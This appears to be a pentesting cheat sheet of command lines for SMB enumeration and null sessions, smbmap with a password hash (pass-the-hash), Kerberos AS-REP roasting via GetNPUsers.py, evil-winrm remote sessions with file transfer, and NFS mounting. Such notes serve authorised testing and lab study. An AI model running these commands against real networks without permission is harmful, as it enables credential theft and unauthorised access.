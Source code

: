 ### [SMB Enumeration p445]
SMBClient
```
Smbclient //ipaddress/share
```
Null Session
```
smbclient -N //IP/Sub
```
SMBv2 Mode
```
smbclient -m SMB2 '//ipaddress/c$/path/to/share' -W <WORKSTATION> -U <username>
```

smbmap commands
```
Smbmap -H <ipaddress>
```
```
Smbmap -H <ipaddress> -u <username>
```
```
Smbmap -H <ipaddress> -u <username> -R
```
```
Smbmap -u <username> -d <domain> -p 'password' -H <ipaddress>
```
```
smbmap -u <username> -p <hash> -H <ipaddress>
```

Enum4linux
```
enum4linux -a IP
```

smbcacls
```
smbcacls -N '//IP/Sub' /Users
```

### [Kerberos Enumeration p88]
```
GetNPUsers.py WORKSTATION/ -dc-ip IP -usersfile /path/to/userslist
GetNPUsers.py NAME.LOCAL/ -dc-ip IP -usersfile /path/to/userslist
```
resources:

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
### [Windows Remote Management WinRM p5985]
```
ruby evil-winrm.rb -i IP -u username -p 'password' -s '/path/to/scripts/' -e '/path/to/exes/'
```
Download / Upload
```
upload local_filename
download remote_filename
```

### Mounting MFS
Display NFS
```
showmount -e IP
```
mount NFS
```
mkdir /tmp/yoursubdirectory
mount -t nfs 0.0.0.0:/subdirectory /tmp/yoursubdirectory
```
unmount NFS
```
umount -f /tmp/subdirectory
```
